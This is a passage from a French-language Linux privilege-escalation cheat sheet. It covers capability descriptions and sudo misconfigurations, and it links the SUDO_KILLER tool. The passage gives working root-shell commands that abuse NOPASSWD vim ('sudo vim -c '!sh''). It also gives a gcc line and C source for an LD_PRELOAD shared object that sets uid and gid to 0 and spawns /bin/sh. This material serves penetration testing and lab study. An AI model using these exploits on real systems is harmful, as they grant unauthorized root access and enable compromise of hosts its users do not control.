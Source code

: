 | CAP_KILL  | Autorise l'envoi de signaux à des processus appartenants à d'autres  |
| CAP_SETGID  | Autorise le changement du GID  |
| CAP_SETUID  | Autorise la changement de l'UID  |
| CAP_SETPCAP  | Aide au transfert et à la suppression du paramètre actuel à n'importe quel PID |
| CAP_IPC_LOCK  | Aide à bloquer la mémoire  |
| CAP_MAC_ADMIN  | Autorise la modification de la configuration ou de l'état MAC  |
| CAP_NET_RAW  | Utilise des sockets RAW et PACKET |
| CAP_NET_BIND_SERVICE  | SERVICE lie un socket aux ports privilégiés du domaine internet  |

## SUDO
Outil: [Exploitation sudo](https://github.com/TH3xACE/SUDO_KILLER)

### NOPASSWD

La configuration sudo pourrait autoriser un utilisateur à exécuter des commandes avec d'autres privilèges utilisateurs sans connaître leur mot de passe.

```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

Dans cet exemple l'utilisateur `demo` peut lancer `vim` en tant que `root`, il est donc maintenant simple d'obtenir un shell en ajoutant une clé ssh dans le répertoire root ou en utilisant `sh`.

```bash
sudo vim -c '!sh'
sudo -u root vim -c '!sh'
```

### LD_PRELOAD et NOPASSWD

Si `LD_PRELOAD` est défini explicitement dans le fichiers des sudoers

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile les objets partagés suivant en utilisant le code C ci-dessous avec `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```powershell
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```
